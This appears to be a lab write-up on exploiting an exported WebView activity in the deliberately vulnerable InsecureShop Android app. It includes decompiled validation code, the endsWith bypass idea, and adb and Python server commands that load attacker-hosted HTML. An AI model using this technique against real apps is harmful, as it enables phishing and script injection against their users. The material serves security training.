

## Context

The Android app **InsecureShop** contains an **exported activity** that can be triggered by external applications or the ADB shell without proper access controls. This activity loads a URL provided via an intent parameter and displays it in a WebView.

Due to insufficient validation, an attacker can make the app load arbitrary content, enabling phishing or malicious script injection.


---

## Vulnerable Code Analysis

Relevant code snippet (decompiled Kotlin/Java):

```java
if (uri != null) {
    String data = null;
    if (!StringsKt.equals$default(uri.getPath(), "/web", false, 2, null)) {
        if (StringsKt.equals$default(uri.getPath(), "/webview", false, 2, null)) {
            Intent intent2 = getIntent();
            Uri data2 = intent2.getData();
            String queryParameter = data2.getQueryParameter("url");

            if (StringsKt.endsWith$default(queryParameter, "insecureshopapp.com", false, 2, null)) {
                Uri data3 = getIntent().getData();
                data = data3 != null ? data3.getQueryParameter("url") : null;
            }
        }
    }
}
```

**Key points:**

1. The activity is **exported** and can be launched externally.
2. It expects the URI path `/webview`.
3. It takes a `url` query parameter from the intent data.
4. The code checks if the URL **ends with** `insecureshopapp.com`.
5. However, the validation is **insufficient** because:
    - `endsWith()` can be bypassed with URLs like `attacker.com/insecureshopapp.com` (open redirect style).
    - No proper scheme/host validation is done before loading the URL.


---

## Exploitation Steps

#### 1. Create a Malicious HTML File

Prepare a malicious payload (`test.html`) that will be loaded in the app’s WebView.
```bash
echo "KILL-9" > test.html
```
This could be replaced with JavaScript or phishing HTML.

#### 2. Host the Malicious File

Start a Python HTTP server in the same directory as the HTML file:
```bash
python3 -m http.server 8002
```

This will make the file accessible at:
```bash
http://<attacker_ip>:8002/test.html
```

#### 3. Trigger the Exported Activity

Use ADB to send an **intent** directly to the vulnerable activity:
```bash
adb shell am start -W -a android.intent.action.VIEW -d "insecureshop://com.insecureshop/web?url=192.168.1.46:80/test.html"
```


#### Breakdown:

- `-a android.intent.action.VIEW` → standard action to view a URI.
- `-d` → specifies the data URI passed to the activity.
- `insecureshop://com.insecureshop/web?url=...` → custom scheme and parameters for the app.
- The `url` parameter points to our malicious HTML file hosted on the attacker's server.


#### Why It Works

- The app does **not** verify that the loaded `url` actually belongs to its own domain.
- As the activity is **exported**, any external source (other apps, ADB, deep link) can invoke it.